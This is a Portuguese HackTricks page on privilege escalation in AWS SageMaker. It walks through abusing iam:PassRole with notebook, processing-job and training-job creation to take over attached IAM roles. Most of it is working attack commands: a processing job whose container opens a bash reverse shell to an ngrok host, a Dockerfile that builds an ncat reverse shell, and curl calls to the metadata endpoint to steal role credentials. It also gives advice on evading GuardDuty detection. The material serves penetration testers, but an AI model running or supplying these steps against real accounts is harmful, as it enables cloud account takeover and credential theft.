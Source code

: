 # AWS - Sagemaker Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

O primeiro passo neste processo de ataque é **identificar um papel que confie no SageMaker para assumi-lo** (sagemaker.amazonaws.com). Uma vez feito isso, podemos executar o seguinte comando para criar um novo caderno com esse papel anexado:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
Se for bem-sucedido, você receberá o **ARN da nova instância do notebook** na resposta da AWS. Isso levará **alguns minutos** para ser configurado, mas uma vez que tenha sido feito, podemos executar o seguinte comando para obter uma URL pré-assinada para obter **acesso à instância do notebook através do nosso navegador web**. Existem potencialmente outras maneiras de ganhar acesso, mas esta é uma permissão única e uma única chamada de API, então pareceu simples.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Se esta instância estivesse totalmente ativada, esta chamada de API retornará uma **URL assinada que podemos visitar** em nosso navegador para acessar a instância. Uma vez na página do Jupyter no meu navegador, clicarei em "Abrir JupyterLab" no canto superior direito, que pode ser visto na captura de tela a seguir.

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

Na próxima página, role até o final na aba "Launcher". Na seção "Outros", clique no botão "Terminal", que pode ser visto aqui.

![](<../../../.gitbook/assets/image (27).png>)

Do terminal, temos algumas opções, uma delas seria simplesmente **usar o AWS CLI**. A outra opção seria **contatar o serviço de metadados do EC2** para as credenciais da função IAM diretamente e exfiltrá-las.

GuardDuty pode vir à mente ao ler "exfiltrá-las" acima, no entanto, não precisamos nos preocupar com o GuardDuty aqui. A descoberta relacionada do GuardDuty é [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11), que alertará se as credenciais de uma função forem roubadas de uma instância EC2 e usadas em outro lugar. Felizmente para nós, esta instância EC2 na verdade não vive em nossa conta, mas é uma **instância EC2 gerenciada hospedada em uma conta de propriedade da AWS**. Isso significa que **podemos exfiltrar essas credenciais e não nos preocupar em acionar** os detectores de GuardDuty do nosso alvo.

**Impacto Potencial:** Privesc para a função de serviço do sagemaker especificada.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Semelhante ao exemplo anterior, se os **notebooks Jupyter já estiverem em execução** nele e você puder listá-los com sagemaker:ListNotebookInstances (ou descobri-los de qualquer outra forma). Você pode **gerar uma URL para eles, acessá-los e roubar as credenciais conforme indicado na técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**Impacto Potencial:** Privesc para a função de serviço do sagemaker anexada.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Um atacante com essas permissões pode fazer o **sagemaker executar um processingjob** com uma função do sagemaker anexada a ele. O atacante pode indicar a definição do contêiner que será executado em uma instância de conta ECS gerenciada pela **AWS**, e **roubar as credenciais da função IAM anexada**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc para o papel de serviço do sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Um atacante com essas permissões poderá criar um trabalho de treinamento, **executando um contêiner arbitrário** com um **papel anexado** a ele. Portanto, o atacante poderá roubar as credenciais do papel.

{% hint style="warning" %}
Este cenário é mais difícil de explorar do que o anterior porque você precisa gerar uma imagem Docker que enviará o shell reverso ou credenciais diretamente para o atacante (você não pode indicar um comando de início na configuração do trabalho de treinamento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc para o papel de serviço do sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Um atacante com essas permissões poderá (potencialmente) criar um **trabalho de treinamento de hiperparâmetros**, **executando um contêiner arbitrário** nele com um **papel anexado** a ele.\
_Não explorei por falta de tempo, mas parece semelhante aos exploits anteriores, fique à vontade para enviar um PR com os detalhes da exploração._

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
